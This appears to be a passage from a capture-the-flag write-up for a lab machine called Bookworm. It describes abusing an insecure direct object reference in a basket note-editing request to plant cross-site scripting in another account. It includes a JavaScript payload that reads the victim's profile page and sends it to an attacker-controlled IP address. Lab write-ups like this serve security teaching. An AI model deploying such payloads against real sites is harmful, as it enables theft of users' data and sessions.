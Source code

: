 ## Insecure Direct Object Referencing (IDOR)

I've tried captured our basket's `Edit Note` request in `Burpsuite` reveals a basket identifier in the URI . Look at `POST` request showing id our basket's . We can finding their basket ID and Send payload xss attack to steal victim cookie . To see if we can leverage this information , we add create one more account then we edit the request in `Burpsuite` to point to our secondary accounts basket ID , which allows us to edit secondary accounts note .


```javascript
fetch("http://bookworm.htb/profile", { mode: 'no-cors' })
    .then((response) => response.text())
    .then((text) => {
        fetch("http://10.10.14.122:8000", {
            method: "POST",
            mode: 'no-cors',
            headers: {
                'Content-Type': 'text/plain',
            },
            body: text
        });
    });
```

![](/images/bookworm/2024-01-23-19-55-25.png)

I put this code on `test.txt` and i included file path have malicious code javascript to `Edit notes` but `python3 -m http.server` does not support `POST` response so our created code http.server the usage is same but the difference is this code support `POST` request 
